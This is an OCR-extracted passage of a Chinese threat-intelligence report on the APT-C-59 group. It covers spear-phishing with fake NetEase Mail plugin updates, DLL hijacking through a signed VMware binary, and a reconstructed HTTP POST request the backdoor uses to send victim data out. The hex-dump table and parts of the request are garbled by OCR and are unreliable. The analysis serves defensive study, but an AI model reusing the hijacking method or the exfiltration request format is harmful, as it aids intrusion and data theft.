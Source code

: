 我们发现恶意安装文件统计情况：  


<html><body><table><tr><td>2F:8790h:</td><td></td><td>00000000</td><td></td><td></td><td>0000</td><td></td><td>00000</td><td></td><td>00</td><td>中IO</td><td>00</td><td>00</td><td>00</td><td></td><td>0000</td><td>00</td><td></td><td></td></tr><tr><td>2F:87A0h:</td><td>00</td><td>(OTD</td><td>00</td><td>OTD</td><td>00</td><td>OTO</td><td></td><td></td><td>010</td><td></td><td></td><td></td><td>OIO</td><td>00</td><td></td><td></td><td>00</td><td></td></tr><tr><td>2F:87B0h:</td><td>00</td><td>010</td><td>00</td><td>00</td><td>00</td><td></td><td>中中</td><td>中</td><td>00</td><td></td><td>010</td><td></td><td>797F</td><td>28</td><td></td><td>0029</td><td>04</td><td></td></tr><tr><td>2F:87C0h:</td><td></td><td>0700494E</td><td></td><td></td><td></td><td>5445</td><td>54C48</td><td></td><td></td><td></td><td></td><td></td><td></td><td></td><td></td><td></td><td>4950455250524F4A</td><td></td></tr><tr><td>2F:87D0h:</td><td>45</td><td>4302</td><td></td><td>00</td><td>00</td><td>OTO</td><td></td><td></td><td></td><td></td><td></td><td></td><td></td><td></td><td></td><td></td><td></td><td>TNTELHIFERFROJ</td></tr><tr><td></td><td></td><td></td><td></td><td></td><td></td><td></td><td></td><td></td><td></td><td></td><td></td><td></td><td></td><td></td><td></td><td></td><td></td><td>EC.</td></tr></table></body></html>  

恶意安装包文件末尾都存在标识"INTELHIPERPROJEC"。  

#### 1.1.3 鱼叉邮件  

APT-C-59（芜琼洞）组织会通过精心设计的邮件客户端安全升级通知作为诱饵，针对目标进行社工鱼叉邮件攻击，受害者通过邮件下载安装恶意插件后中招。在相关攻击活动中，恶意诱饵文件会伪装为网易邮箱程序的正常插件。恶意后门插件会安装到C:\Program Files (x86)\Common Files\Netease\Webmail\plugins目录， 其中netcmplugin.dat (配置文件）、shfolder.dll、npLBPlugin.dll为恶意后门文件，其余为正常文件。  

![](https://cdn-mineru.openxlab.org.cn/extract/1cc9fc54-dbd1-4525-a26d-f9b99e8d9e1e/72490677cda369f315ef879fdf0fee182b0e38883681377ff15042d1bf4dc2bb.jpg)  

![](https://cdn-mineru.openxlab.org.cn/extract/1cc9fc54-dbd1-4525-a26d-f9b99e8d9e1e/654b1cacf484bfcc45b55767259c5911e10d6bf7030a2bf1e3acfa693854cad6.jpg)  
puter Local Disk (C:) Program Files (x86)Common Files Netease Webmail plugins  

攻击者利用了dIl劫持技术，使netcmplugin.exe加载自定义的SHFOLDER.dll，最终加载后门程序npLBPlugin.dll。netcmplugin.exe文件本身为白文件，其实际为vmnat.exe，拥有VMvare公司的签名。这种攻击方式在后续攻击行动中也经常用到。  

### 1.2恶意载荷分析  

#### 1.2.1后门程序  

程序收集受害者信息上传到远程服务器，并按照从远程下载的配置文件指示完成屏幕截图，文件执行等功能。  

# http请求  

下图是根据程序逻辑，构造出的信息回传时程序发送的http包的内容。  

POST /cloud/360log/safemon.php HTTF/1.1   
Content-Type: multipart/form-data; boundary $=$ --BB-CCDD-BOUNDARY   
Content-Length: 1234 --BB-CCDD-BOUNDARY   
Content-Disposition: form-data; name $=$ "linko"   
P -BB-CCDD-BOUNDARY   
Content-Disposition: form-data; name $=$ "infoo"   
XXX_2021 --BB-CCDD-BOUNDARY   
Content-Disposition: form-data; name $=$ "file";filename $=$ "17616_1282021"   
Content-Type: application/octet-stream  
